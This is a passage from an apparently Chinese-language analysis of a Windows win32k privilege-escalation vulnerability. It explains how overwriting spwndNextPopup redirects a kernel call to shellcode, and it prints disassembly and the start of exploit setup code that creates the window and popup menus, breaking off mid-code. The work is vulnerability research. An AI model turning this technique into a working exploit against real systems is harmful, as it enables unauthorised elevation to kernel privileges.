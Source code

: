 ```
.text:BF939538                 call    _xxxSendMessage@16 ; xxxSendMessage(x,x,x,x)
.text:BF93953D                 test    eax, eax
.text:BF93953F                 jnz     short loc_BF939583
.text:BF939541                 push    ebx
.text:BF939542                 call    _xxxMNHideNextHierarchy@4 
.text:BF939547                 jmp     short loc_BF939583
```  
  
  
在xxxMNHideNextHierarchy函数中，会将pTagPopupMenu偏移0x0C的spwndNextPopup作为第一个参数调用xxxSendMessage函数。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H4yqSxOmHFDodVVkgicYkhS1bQxrVpkB7TNnIIdep3Etwyt46vqzpTb1dMtDtOQjpr3GibMMUhcqng/640?wx_fmt=png "")  
  
虽然这里第八第九行代码验证了spwndNextPopup是否为0，但是，函数没有对pTagPopupmenu进行验证。因此，只要修改掉spwndNextPopup，让它不为0。  
  
  
最终将导致代码xxSendMessageTimeout中的call dword ptr [esi + 0x60]就变成call dword ptr [spwndNextPopup + 0x60]，此时只要在相应的位置放入ShellCode函数地址，就可以实现提权。  
#   
#   
```
```  
  
  
和CVE-2014-4113相同的是，该漏洞也需要通过TrackPopupMenu函数来触发，所以也需要以下的代码来创建相应的窗口。  
```
HWND hWnd = NULL;
WNDCLASS wc = { 0 };
HMENU hMenu1 = NULL, hMenu2 = NULL;
MENUITEMINFO Item1 = { 0 }, Item2 = { 0 };
 
memset(&wc, 0, sizeof(wc));
 
wc.hInstance = GetModuleHandle(NULL);
wc.lpfnWndProc = WndProc_2015_2546;
wc.lpszClassName = "1900";
 
if (!RegisterClassA(&wc))
{
    ShowError("RegisterClassA", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hWnd = CreateWindowA(wc.lpszClassName,
               "",
               WS_OVERLAPPEDWINDOW | WS_VISIBLE,
               0,
               0,
               640,
               480,
               NULL,
               NULL,
               wc.hInstance,
               NULL);
if (!hWnd)
{
    ShowError("CreateWindowEx", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hMenu1 = CreatePopupMenu();
if (!hMenu1)
{
    ShowError("CreatePopupMenu", GetLastError());
    bRet = FALSE;
```